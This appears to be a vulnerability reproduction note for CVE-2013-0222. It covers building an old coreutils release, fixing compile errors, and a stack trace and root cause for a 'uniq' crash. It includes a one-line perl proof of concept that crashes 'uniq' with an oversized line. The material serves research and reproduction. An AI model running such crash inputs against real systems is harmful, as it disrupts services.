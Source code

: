 # CVE-2013-0222

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0222/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

```
./stdio.h:177:1: error: 'gets' undeclared here (not in a function); did you mean 'fgets'?
  177 | /* It is very rare that the developer ever has full control of stdin,
      | ^~~~~~~~~~~~~~~
```

Removing lib/stdio.h:177 could work.

```
freadseek.c: In function 'freadptrinc':
freadseek.c:60:3: error: #error "Please port gnulib freadseek.c to your platform! Look at the definition of getc, getc_unlocked on your system, then report this to bug-gnulib."
   60 |  #error "Please port gnulib freadseek.c to your platform! Look at the definition of getc, getc_unlocked on your system, then report this to bug-gnulib."
      |   ^~~~~
```

Some similar compiler complaints also occur for the same reason that macro _IO_ftrylockfile is not accessible in glic of higher version.

A simple patch which fixes the two problems above: [fix-some-compile-issue-in-ubuntu20.patch](fix-some-compile-issue-in-ubuntu20.patch)

Before running `./configure`, apply the patch by:
```
# In coreutils-8.4/
patch -p1 < ../fix-some-compile-issue-in-ubuntu20.patch
```

Then run `./configure` and `make`.

This patch works well on both amd64 and aarch64 Ubuntu 20.04.

Note that build type should be specific on aarch64 platform since config.guess could not guess it.  
So run `./configure --build=aarch64-unknown-linux-gnu` instead.

See also:
 - [adjust to glibc 2.28 libio.h removal](https://lists.gnu.org/r/bug-gnulib/2018-03/txtTc1bTw2mGz.txt)
 - [gets undeclared here](https://mudongliang.github.io/2017/07/02/gets-undeclared-here.html)

## How to trigger vulnerability

```
perl -e 'print "1","\0"x50000000,"\r\n\r\n"' | uniq
```

## PoCs

[CVE-2013-0222: coreutils: segmentation fault in "uniq" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=796243)

## Vulnerability Details & Patch

### Root Cause

```
uniq.c:392

	copy[i] = alloca (len[i] + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x08049ae8 in different_multi (old=<value optimized out>, new=<value optimized out>, oldlen=50000002, 
    newlen=50000002, oldstate=..., newstate=...) at uniq.c:397
#1  0x0804a8d3 in check_file (argc=1, argv=0xbf8f44d4) at uniq.c:513
#2  main (argc=1, argv=0xbf8f44d4) at uniq.c:806
```

## References
